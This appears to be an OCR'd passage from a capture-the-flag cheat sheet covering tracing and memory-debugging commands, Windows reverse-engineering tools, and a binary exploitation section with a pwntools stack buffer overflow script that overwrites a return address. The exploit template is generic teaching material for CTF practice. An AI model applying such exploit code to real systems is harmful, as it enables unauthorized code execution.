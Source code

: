 **ltrace/strace:**
```bash
ltrace ./binary         # Library calls
strace ./binary        # System calls
strace -e trace=network ./binary  # Network calls only
```

**Valgrind:**
```bash
valgrind --tool=memcheck ./binary    # Memory error detection
```

### Windows Reverse Engineering

| Tool | Purpose |
|------|---------|
| x64dbg | Windows debugger |
| Process Monitor | Monitor file/registry/process activity |
| API Monitor | Monitor API calls |
| PE-bear | PE file analyzer |
| Detect It Easy | Packer/protector detection |

---

## 4. Binary Exploitation (Pwn)

### Exploit Development Workflow

1. **Fuzzing:** Crash the binary with long inputs
2. **Offset Calculation:**
   ```bash
   pattern create 200
   pattern offset $eip
   ```
3. **Control EIP/RIP:** Overwrite return address
4. **Shellcode Execution:**
   ```python
   from pwn import *
   payload = b"A"*72 + p64(0xdeadbeef)
   ```

### Common Vulnerabilities

#### Buffer Overflow

**Basic Stack Overflow:**
```python
from pwn import *

p = process('./binary')
offset = 72
payload = b"A" * offset + p64(0x401234)  # Jump to win function
p.sendline(payload)
```
